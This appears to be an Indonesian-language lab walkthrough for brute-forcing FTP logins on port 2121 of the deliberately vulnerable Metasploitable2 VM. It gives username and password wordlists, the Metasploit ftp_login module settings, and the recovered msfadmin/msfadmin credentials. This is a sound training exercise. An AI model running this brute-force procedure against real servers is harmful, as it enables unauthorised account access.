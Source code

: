 # Exploit Port 2121 (FTP)
- Buat file dengan nano yang berisi daftar user untuk uji coba
```sh
nano user-metasploitable2.txt
```

- Isi file tersebut dengan daftar user sebagai berikut. Kemudian tekan `Ctrl+o` lalu `enter` untuk menyimpan
```sh
root
admin
msfadmin
administrator
guest
user
test
postgres
oracle
```


- Buat file dengan nano yang berisi daftar password untuk uji coba
```sh
nano password-metasploitable2.txt
```

- Isi file tersebut dengan daftar password sebagai berikut. Kemudian tekan `Ctrl+O` lalu `enter` untuk menyimpan
```sh
qwerty
1234
admin
12345
msfadmin
123123
12345678
```


- Buka msfconsole di terminal
```sh
msfconsole
```


- Cari modul untuk exploit FTP
```sh
search pro ftp
```


- Gunakan modul `auxiliary/scanner/ftp/ftp_login` untuk melakukan brute force login FTP
```sh
use auxiliary/scanner/ftp/ftp_login
```


- Tampilkan daftar parameter yang dibutuhkan di modul tersebut
```sh
show options
```


- Isi parameter yang dibutuhkan di modul tersebut. Isi parameter `USER_AS_PASS` dengan true supaya daftar user bisa gunakan sebagai daftar password
```sh
set rhosts <IP_metasploitable2>
set rport 2121
set user_file /home/kali/user-metasploitable2.txt
set pass_file /home/kali/password-metasploitable2.txt
set user_as_pass true
```


- Setelah pengisian parameter selesai jalankan proses brute force. Setelah dijalankan didapat 1 akun FTP dengan username msfadmin dan password msfadmin
```sh
run
```
